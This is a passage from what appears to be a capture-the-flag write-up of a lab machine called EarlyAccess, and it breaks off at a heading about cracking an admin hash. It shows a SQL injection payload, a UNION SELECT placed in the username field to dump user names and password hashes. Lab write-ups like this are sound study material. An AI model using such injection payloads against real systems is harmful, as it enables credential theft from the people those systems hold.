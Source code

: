 ![earlyaccess-sqli-tables](/assets/images/2022-02-03-22-16-03.png)

Next I dumped the users and passwords by changing my username to this:

```text
pencer') union select name,password,null from users -- -
```

Which gave me them all:

![earlyaccess-sqli-uers](/assets/images/2022-02-03-22-18-13.png)

## JohnTheRipper

Let's take the admin hash and crack it:
